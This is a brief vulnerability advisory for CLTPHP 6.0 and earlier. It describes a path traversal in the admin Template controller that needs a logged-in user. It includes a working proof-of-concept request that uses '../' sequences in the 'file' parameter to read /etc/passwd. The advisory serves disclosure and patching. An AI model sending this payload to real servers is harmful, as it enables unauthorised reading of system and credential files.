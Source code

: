 # CLTPHP <= 6.0 Path Traversal
## Description
    The system client did not handle the parameters correctly, resulting in path traversal.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

payload:

```
admin/template/edit?file=../../../../../../../../../../etc/passwd&type=../
```

![image-20230105101739242](img/63b7c3bca23b8.png)